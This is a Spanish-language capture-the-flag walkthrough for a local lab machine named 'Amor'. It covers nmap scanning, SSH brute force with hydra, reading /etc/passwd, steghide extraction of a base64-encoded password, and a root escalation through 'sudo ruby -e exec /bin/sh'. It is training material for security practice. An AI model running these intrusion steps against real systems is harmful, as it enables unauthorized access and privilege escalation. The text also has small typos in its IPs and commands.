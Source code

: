 ## Nombre: Amor

#### Dificultad : Facil

1.ESCANEO

Lo primero, hacemos un ping a la maquina para comprobar la conexión:

`` ping -c 1 172.17.0.2``

- Después hacemos un escaneo simple con NMAP:

`` nmap -p- --open 172.17.0.2``

Al ver los puertos que estan abiertos, debemos hacer un escaneo únicamente a los puertos encontrados de una manera mas detallada:

`` nmap -p22,80 -sCV 172.17.0.2 ´´
    
MIRAMOS QUE CORRE POR EL SERVICIO HTTP EN EL NAVEGADOR

( http://17.17.0.2 )

 PARA VER EL CODIGO FUENTE DE LA PAGINA ( CTRL + U )

- Si nos fijamos en el contenido de la pagina, en texto plano podemos ver el nombre de uno de los usuarios que hay en el sistema.

  <img width="714" height="191" alt="image" src="https://github.com/user-attachments/assets/5d9a62eb-022d-4ad7-a8e8-ed91f82bf1ea" />



Por lo tanto podemos intentar conseguir las credenciales con un ataque por fuerza                    bruta ( HYDRA ):
puede tardar unos minutos :

``hydra  ssh://172.17.0.2 -l Carlota -P /usr/share/wordlists/rockyou.txt -s 22 ``

#### 2.ACCESO

 Con suerte, hemos obtenido la contraseña de el usuario el cual identificamos mediante la info que apariencia en la web. Para ello debemos de introducir el puerto por el que nos vamos a conectar, en este caso SSH, el nombre de usuario y su direccion sobre la que esta logueado:

`` ssh carlota@172.17.0.2  password: babygirl``, lo ponemos y

Tendremos acceso

EN ESTE PUNTO PODEMOS LIMPIAR LA CONSOLE, NO PERDEREMOS EL ACCESO

Una vez tengamos acceso al sistema, tenemos que escalar privilegios, para ello, debemos de identificar que usuarios tenemos disponibles en el servidor:

`` cat /etc/passwd`` Y veremos si hay algún otro usuario: llamado oscar

Hacemos una enumeración del sistema con `` sudo -l`` y ponemos pswd

```bash

script /dev/null -c bash : creamos una pseudo-terminal nueva

se utiliza para **iniciar una nueva sesión de bash** a través del comando `script`, redirigiendo la salida a `/dev/null`, es decir, **sin guardar nada**.

### descripcion del comando

- `script`: es un comando que normalmente graba toda la actividad de una terminal en un archivo (por defecto `typescript`).
    
- `/dev/null`: es un dispositivo especial que **descarta todo lo que se le envía**. Aquí se usa como archivo de salida para `script`, por lo tanto, no se guarda ningún registro.
    
- `-c bash`: le dice a `script` que ejecute el comando `bash`.

`script` crea una pseudo-terminal nueva, lo que a veces **restaura el comportamiento estándar de la terminal** si esta se ha corrompido.


en la maquina victima levantamos un **servidor web HTTP simple** usando Python 3 en el **puerto 443**. con : python3 -m http.server 443:

y en nuestra maquina: curl http://172.17.0.2:443/imagen.jpg --output imagen.jpg para extraer el archivo

```



- usamos exiftool para extraer los **metadatos ocultos** de imágenes
- luego usamos strings : para Ver texto oculto o incrustado en archivos
- y por ultimo usamos steghide : Recuperar esos archivos ocultos : steghide extract -sf  imagen.jpg

y observamos que hay un archivo llamado : secret.txt" con un codigo codificado en base64 
lo decodificamos 

```bash
echo ZXNsYWNhc2FkZXBpbnlwb24= | base64 -d : y nos da eslacascadepinypo

```

- ingremos al ssh con el usario oscar que se ve anteriormente: oscar@ip password
- usamos sudo -l para ver que comandos puede ejecutar este usuario. hay un binario /usr/bin/ruby
- ejecutamos script /dev/null -c bash
- con la herramienta gtfbins buscamos y vemos que es vulnerable a sudo ejecutamos: sudo ruby -e 'exec "/bin/sh"' y somos root
